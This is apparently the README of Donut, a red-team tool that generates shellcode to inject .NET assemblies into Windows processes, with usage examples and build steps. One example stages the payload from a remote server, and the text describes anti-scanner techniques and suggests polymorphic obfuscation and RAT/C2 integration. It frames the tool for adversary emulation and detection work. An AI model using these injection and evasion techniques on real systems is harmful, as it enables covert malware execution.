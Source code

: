 # Using Donut

Donut is a shellcode generation tool that creates x86 or x64 shellcode payloads from .NET Assemblies. This shellcode may be used to inject the Assembly into arbitrary Windows processes. Given an arbitrary .NET Assembly, parameters, and an entry point (such as Program.Main), it produces position-independent shellcode that loads it from memory. The .NET Assembly can either be staged from a URL or stageless by being embedded directly in the shellcode. Either way, the .NET Assembly is encrypted with the Chaskey block cipher and a randomly generated 128-bit key. After the Assembly is loaded through the CLR, the original reference is erased and freed from memory to deter memory scanners. The Assembly will be loaded into a new Application Domain using a random name which allows running Assemblies in disposable AppDomains.

It can be used in several ways.

## As a Standalone Tool

Donut can be used as-is to generate shellcode from arbitrary .NET Assemblies. Both a Windows EXE and a Python script are provided for payload generation. The command-line syntax is as described below.

```

 usage: donut [options] -f <.NET assembly> -c <namespace.class> -m <Method>

       -f <path>            .NET assembly to embed in PIC and DLL.
       -u <URL>             HTTP server hosting the .NET assembly.
       -c <namespace.class> The assembly class name.
       -m <method>          The assembly method name.
       -p <arg1,arg2...>    Optional parameters for method, separated by comma or semi-colon.
       -a <arch>            Target architecture : 1=x86, 2=amd64(default).
       -r <version>         CLR runtime version. v4.0.30319 is used by default.
       -d <name>            AppDomain name to create for assembly. Randomly generated by default.
 examples:

    donut -a 1 -c TestClass -m RunProcess -p notepad.exe -f loader.dll
    donut -f loader.dll -c TestClass -m RunProcess -p notepad.exe -u http://remote_server.com/modules/

```

## As a Library

donut is provided as both dynamic and static libraries for both Linux (*.a* / *.so*) and Windows(*.lib* / *.dll*). It has a simple API that is described in *api.html*. Two exported functions are provided, ``` int DonutCreate(PDONUT_CONFIG c) ``` and ``` int DonutDelete(PDONUT_CONFIG c) ``` .

## Rebuilding the shellcode

Currently, the shellcode has only been compiled using the free version of Microsoft Visual Studio 2017. A Makefile is provided that by default will generate x86-64 shellcode if used from an x64 Microsoft Visual Studio build environment, switch to the payload directory and type the following:

```
nmake clean
nmake
```

This should generate an executable (*payload.exe*) from *payload.c*. exe2h will then extract the shellcode from the *.text* segment of the executable and save it as a C array to *payload_exe_x64.h*

To generate 32-bit shellcode, open the x86 Microsoft Visual Studio build environment, switch to the payload directory and type the following:

```
nmake clean
nmake x86
```

This will save the shellcode as a C array to *payload_exe_x86.h*

Additional features are left as exercises to the reader. I would personally recommend:

* Add environmental keying
* Make donut polymorphic by obfuscating *payload* every time shellcode is generated
* Integrate donut as a module into your favorite RAT/C2 Framework

## Disclaimers

* No, we will not update donut to counter signatures or detections by any AV.
* We are not responsible for any misuse of this software or technique. Donut is provided as a demonstration of CLR Injection through shellcode in order to provide red teamers a way to emulate adversaries and defenders a frame of reference for building analytics and mitigations. This inevitably runs the risk of malware authors and threat actors misusing it. However, we believe that the net benefit outweighs the risk. Hopefully that is correct.

# How it works

## Procedure

Donut uses the Unmanaged CLR Hosting API to load the Common Language Runtime. If necessary, the Assembly is downloaded into memory. Either way, it is decrypted using the Chaskey block cipher. Once the CLR is loaded into the host process, a new AppDomain will be created using a random name unless otherwise specified. Once the AppDomain is ready, the .NET Assembly is loaded through AppDomain.Load_3. Finally, the Entry Point specified by the user is invoked with any specified parameters.

The logic above describes how the shellcode generated by donut works. That logic is defined in *payload.exe*. To get the shellcode, *exe2h* extracts the compiled machine code from the *.text* segment in *payload.exe* and saves it as a C array to a C header file. *donut* combines the shellcode with a Donut Instance (a configuration for the shellcode) and a Donut Module (a structure containing the .NET assembly, class name, method name and any parameters).

Refer to MSDN for documentation on the Undocumented CLR Hosting API: https://docs.microsoft.com/en-us/dotnet/framework/unmanaged-api/hosting/clr-hosting-interfaces

For a standalone example of a CLR Host, refer to Casey Smith's AssemblyLoader repo: https://github.com/caseysmithrc/AssemblyLoader

## Components

Donut contains the following elements:

* donut.c: The source code for the donut payload generator
* donut.exe: The compiled payload generator as an EXE
* donut.py: The donut payload generator as a Python script
* lib/donut.dll, lib/donut.lib: Donut as a dynamic and static library for use in other projects on Windows platform
* lib/donut.so, lib/donut.a: Donut as a dynamic and static library for use in other projects on the Linux platform
* lib/donut.h: Header file to include if using the static or dynamic libraries in a C/C++ project
* payload.c: Source code for the shellcode
* payload.exe: The compiled payload. The shellcode is extracted from this binary file.
* exe2h.c: Source code for exe2h
* exe2h.exe: Extracts the useful machine code from payload.exe and saves as array to C header file
* encrypt.c: Chaskey 128-bit block cipher in Counter (CTR) mode used for encryption.
* hash.c: Maru hash function. Uses the Speck 64-bit block cipher with Davies-Meyer construction for API hashing.

Additionally, there are three companion projects provided with donut:

* DonutTest: A simple C# shellcode injector to use in testing donut. The shellcode must be base64 encoded and copied in as a string. 
* ProcessManager: A Process Discovery tool that offensive operators may use to determine what to inject into and defensive operators may use to determine what is running, what properties those processes have, and whether or not they have the CLR loaded. 
* ModuleMonitor: A proof-of-concept tool that detect CLR injection as it is done by tools such as donut and Cobalt Strike's execute-assembly.
